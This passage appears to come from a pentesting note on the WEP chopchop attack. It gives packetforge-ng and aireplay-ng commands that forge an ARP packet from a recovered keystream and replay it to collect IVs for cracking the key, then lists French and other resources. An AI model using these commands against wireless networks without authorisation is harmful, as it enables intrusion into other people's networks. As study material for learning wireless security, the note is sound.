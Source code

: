 //TO EXPLAIN packet creation

```bash
packetforge-ng --arp -a 'TA:RG:ET:BS:SI:DD' -h 'CL:IE:NT:BS:SI:DD' -k 255.255.255.255 -l 255.255.255.255 -y $fragment_file -w crafted-packet
```

![](<./assets/Chopchop attack packet creation.png>){.rawimg}

packet replay

```bash
aireplay-ng --interactive -F -r crafted-packet $wlan_interface
```

![](<./assets/Chopchop attack packet replay.png>){.rawimg}

> [!SUCCESS]
> In previous tests, combining a fragmentation attack with a chopchop attack resulted in high a number of received IVs per second (`#/s` column in `airodump-ng`) around 250. 

## Resources

[https://lesperance.io/](https://lesperance.io/)

[https://connect.ed-diamond.com/MISC/MISC-053/Cassage-de-WEP-hors-des-sentiers-battus](https://connect.ed-diamond.com/MISC/MISC-053/Cassage-de-WEP-hors-des-sentiers-battus)